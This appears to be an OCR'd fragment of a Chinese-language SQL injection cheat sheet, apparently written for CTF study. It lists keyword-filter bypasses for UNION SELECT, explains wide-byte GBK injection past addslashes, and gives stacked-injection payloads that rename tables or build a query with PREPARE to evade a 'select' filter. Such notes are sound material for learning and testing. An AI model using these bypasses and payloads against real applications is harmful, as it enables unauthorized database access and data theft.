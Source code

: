 等价

- `AND`、`&&`
- `OR`、`||`
- `=`、`LIKE`、`GREATEST()`,[更多比较操作符](https://dev.mysql.com/doc/refman/8.0/en/comparison-operators.html)

</div>
<div>

- `/union\s+select/i`
  - UNION(SELECT)
  - UNION [ALL|DISTINCT] SELECT
  - UNION/\*!SELECT\*/
  - UNION/**/SELECT
  - UNION%A0SELECT
- `/union/i`  - 转化为盲注
- `/select/i` - 往往和堆叠注入有联系
- `preg_replace('[\s]',"",$id))`  删除关键字
  - `SELESELECTCT`，叠字绕过

</div>
</div>

## 宽字节注入

在开启转义后，由于数据库编码和 PHP 编码不同，产生注入

- [addslashes](https://www.php.net/manual/zh/function.addslashes.php)为了数据库查询语句等的需要在某些字符前加上了反斜线转义，单引号（'）、双引号（"）、反斜线（\）与 NUL（null 字符）

0x <u>5c</u> -> `\`

$id = 0x <u>bf</u> <u>27</u>

addslashes($id)   -> 0x <u>bf 5c</u> 27  -> `縗'`

> GBK采用双字节编码，编码范围8140-FEFE

## 堆叠注入

存在堆叠注入，且过滤`select`

```sql
// 修改表名
RENAME TABLE `tbl_name` TO `new_tbl_name`;
ALTER TABLE `tbl_name` RENAME TO `new_tbl_name`;

// 修改字段名
ALTER TABLE `tbl_name` CHANGE `col_name` `new_col_name` 字段类型;
```

预编译语句

```sql
set @sql=concat("sel","ect flag from `tbl_name`");
PREPARE x from @sql;
EXECUTE x;
```
